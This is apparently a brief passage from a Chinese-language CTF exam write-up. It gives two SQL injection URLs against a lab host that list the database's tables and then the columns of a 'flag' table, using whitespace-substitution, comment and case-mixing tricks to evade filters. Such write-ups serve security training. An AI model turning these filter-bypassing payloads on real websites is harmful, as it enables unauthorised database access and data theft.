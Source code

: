 ![image-20210929173126683](0927n考试CtF/image-20210929173126683.png)



`http://192.168.179.51:8008/?id=9999%09Union/**/Select%09Group_concat(table_name)/**/fRom/**/infoRmation_schema.tables/**/whEre/**/table_schema=database()`

![image-20210929182224617](0927n考试CtF/image-20210929182224617.png)

字段名为 id ，  flag

`http://192.168.179.51:8008/?id=9999%0CUnion/**/Select%09Group_concat(column_name)/**/fRom/**/infoRmation_schema.columns/**/whEre/**/table_name=0x666c6167`
